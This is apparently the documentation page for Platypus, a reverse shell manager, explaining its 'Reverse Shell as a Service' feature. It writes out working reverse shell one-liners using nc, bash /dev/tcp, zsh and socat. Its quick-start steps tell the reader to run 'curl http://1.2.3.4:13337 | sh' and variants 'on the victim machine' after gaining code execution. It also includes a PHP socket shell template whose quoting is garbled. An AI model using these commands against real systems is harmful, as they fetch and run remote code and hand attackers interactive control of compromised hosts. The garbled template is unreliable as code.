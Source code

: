 # RaaS

!!! Warning
    本功能仅针对 `*NIX` 客户端，暂不支持 Windows。

![](/images/webui/raas.gif)

Platypus is able to multiplex the reverse shell listening port. Port `13337 / 1338` can handle reverse shell client connections.  
Also, There is another interesting feature that platypus provides, which is called `Reverse Shell as a Service (RaaS)`.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.
Like you have already used before, here are some **BAD** examples:

```bash
nc -e /bin/bash 192.168.174.132 8080
bash -c 'bash -i >/dev/tcp/192.168.174.132/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.174.132 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.132:8080
```

To archive your aim, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/13337 0>&1"` is the equivalent of `curl http://1.2.3.4:13337/5.6.7.8/13337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/13337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:13337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 13337)
2. Execute `curl http://1.2.3.4:13337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./internal/util/resource/resource.go ./internal/runtime/... ./html/dist
```
